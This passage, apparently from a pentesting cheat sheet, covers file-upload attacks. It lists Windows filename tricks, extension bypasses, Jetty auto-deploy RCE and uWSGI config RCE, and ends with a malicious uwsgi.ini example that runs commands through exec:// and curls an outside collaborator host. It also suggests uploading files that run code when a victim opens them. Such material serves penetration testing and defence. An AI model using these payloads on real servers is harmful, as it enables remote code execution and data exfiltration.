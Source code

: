     - Find a vulnerability to **rename** the file already uploaded (to change the extension).
    - Find a **Local File Inclusion** vulnerability to execute the backdoor.
    - **Possible Information disclosure**:
        1. Upload **several times** (and at the **same time**) the **same file** with the **same name**
        2. Upload a file with the **name** of a **file** or **folder** that **already exists**
        3. Uploading a file with **“.”, “..”, or “…” as its name**. For instance, in Apache in **Windows**, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
        4. Upload a file that may not be deleted easily such as **“…:.jpg”** in **NTFS**. (Windows)
        5. Upload a file in **Windows** with **invalid characters** such as `|<>*?”` in its name. (Windows)
        6. Upload a file in **Windows** using **reserved** (**forbidden**) **names** such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
    - Try also to **upload an executable** (.exe) or an **.html** (less suspicious) that **will execute code** when accidentally opened by victim.
- **Special extension tricks**
    
    If you are trying to upload files to a **PHP server**, [take a look at the **.htaccess** trick to execute code](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess).\ If you are trying to upload files to an **ASP server**, [take a look at the **.config** trick to execute code](notion://www.notion.so/network-services-pentesting/pentesting-web/iis-internet-information-services.md#execute-config-files).
    
    The `.phar` files are like the `.jar` for java, but for php, and can be **used like a php file** (executing it with php, or including it inside a script...)
    
    The `.inc` extension is sometimes used for php files that are only used to **import files**, so, at some point, someone could have allow **this extension to be executed**.
    
- **Jetty RCE**
    
    If you can upload a XML file into a Jetty server you can obtain [RCE because **new \_.xml and \_.war are automatically processed](https://twitter.com/ptswarm/status/1555184661751648256/photo/1).** So, as mentioned in the following image, upload the XML file to `$JETTY_BASE/webapps/` and expect the shell!
    
- **uWSGI RCE**
    
    If you can replace the `.ini` configuration file of a **[uWSGI server you can obtain RCE](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).** Indeed uWSGI configuration files can include “magic” variables, placeholders and operators defined with a precise syntax. The ‘@’ operator in particular is used in the form of @(filename) to include the contents of a file. Many uWSGI schemes are supported, including “exec” - useful to read from a process’s standard output. These operators can be weaponized for Remote Command Execution or Arbitrary File Write/Read when a .ini configuration file is parsed:
    
    Example of malicious `uwsgi.ini` file:
    
    ```
    [uwsgi]
    ; read from a symbol
    foo = @(sym://uwsgi_funny_function)
    ; read from binary appended data
    bar = @(data://[REDACTED])
    ; read from http
    test = @(http://[REDACTED])
    ; read from a file descriptor
    content = @(fd://[REDACTED])
    ; read from a process stdout
    body = @(exec://whoami)
    ; curl to exfil via collaborator
    extra = @(exec://curl <http://collaborator-unique-host.oastify.com>)
    ; call a function returning a char *
    characters = @(call://uwsgi_func)
    